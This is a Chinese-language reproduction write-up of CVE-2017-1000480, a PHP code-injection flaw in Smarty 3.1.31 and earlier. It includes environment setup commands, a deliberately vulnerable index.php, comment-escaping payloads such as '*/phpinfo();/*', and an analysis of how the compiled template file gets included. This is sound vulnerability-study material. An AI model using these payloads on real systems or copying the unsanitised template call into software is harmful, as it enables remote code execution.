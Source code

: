 # （CVE-2017-1000480）Smarty<=3.1.31 命令执行RCE

> 原文：[https://www.zhihuifly.com/t/topic/3127](https://www.zhihuifly.com/t/topic/3127)

# （CVE-2017-1000480）Smarty<=3.1.31 命令执行RCE

## 一、漏洞简介

在不清理模板名称的自定义资源上调用fetch（）或display（）函数时，3.1.32之前的Smarty 3容易受到PHP代码注入的攻击。

## 二、漏洞影响

Smarty<=3.1.31、3.1.32-dev

## 三、复现过程

### 1、搭建环境

测试环境为： PHP5.6.40+Apache2+Smarty3.1.31+Debian9

```
➜  html mkdir smarty
➜  html cd smarty
➜  smarty mkdir cache compile templates
➜  smarty composer require smarty/smarty -v
➜  smarty sed -i -e 's/\^3.1/3.1.31/g' composer.json
➜  smarty composer update
➜  smarty sudo chmod -R 777 . 
```

/var/www/html/smarty/index.php 如下：

```
<?php
require './vendor/autoload.php';

class Smarty_Resource_Widget extends Smarty_Resource_Custom

{

protected function fetch($name, &$source, &$mtime)

{

$template = “Smarty <=3.1.31 RCE (CVE-2017-1000480)”;

$source = $template;

$mtime = time();

return ‘mochazz’;

}

}

$smarty = new Smarty();

$smarty->setCacheDir(‘cache’);

$smarty->setCompileDir(‘compile’);

$smarty->setTemplateDir(‘templates’);

$my_security_policy = new Smarty_Security($smarty);

$smarty->enableSecurity($my_security_policy);

$smarty->registerResource(‘username’, new Smarty_Resource_Widget());

$smarty->display(‘username:’.$_GET[‘mochazz’]); `?>` 
```

### 2、漏洞分析

具体攻击 payload 如下：

```
http://0-sec.org/index.php?mochazz=*/phpinfo();/* 
```

![image](img/4602144b95b7b5c720ceff33f357a566.png)

我们直接从 display 方法开始跟进，会发现其最终会调用 render 方法。在 render 方法分别进行了：生成compile文件名、写入compile文件并包含两个操作。

![image](img/8202c8c3f6af84a133bbbaecebe661e6.png)

在第一个操作：生成compile文件名时，我们传入 display 的参数会影响最终的 compile 文件名。例如下面两个 payload 生成的文件名是不一样的。

```
# 代码：$smarty->display('username:'.$_GET['mochazz']);

# payload1：[http://0.0.0.0/smarty/index.php?mochazz=](http://0.0.0.0/smarty/index.php?mochazz=)*/phpinfo();/*

4f97532c32c10229713a39421c918cf16663bf6e_0.username.*.php

# payload2：[http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//](http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//) `1e95a2d156a7edd4f6130643849a588dce4acb27_0.username.phpinfo();.php` 
```

这是因为 compile 文件名中，有一部分由 basename($source->name) 决定，这部分就是我们传入的 mochazz 参数。使用上面第一个 payload 时，文件名就会包含 * 号。在 Linux 系统下，文件名允许包含 * 号，但是 Windows 却不允许，这也是网络上部分文章说这个漏洞无法在 Windows 平台下利用。但是我们使用第二个 payload ，两个平台就都可以利用。

我们接着看第二个操作：写入 compile 文件并包含。首先，写入 compile 文件中的内容包含模板路径（即下图最后一行代码 $_template->source->filepath ），这个模板路径就是我们传入 display 方法的参数。虽然该参数被注释包裹，但是我们可以用 */ 闭合。写入 compile 文件，程序就开始包含该文件，最终导致代码执行（下图第137行）。

![image](img/0520f0875fd38a1c8170ded9c65b4848.png)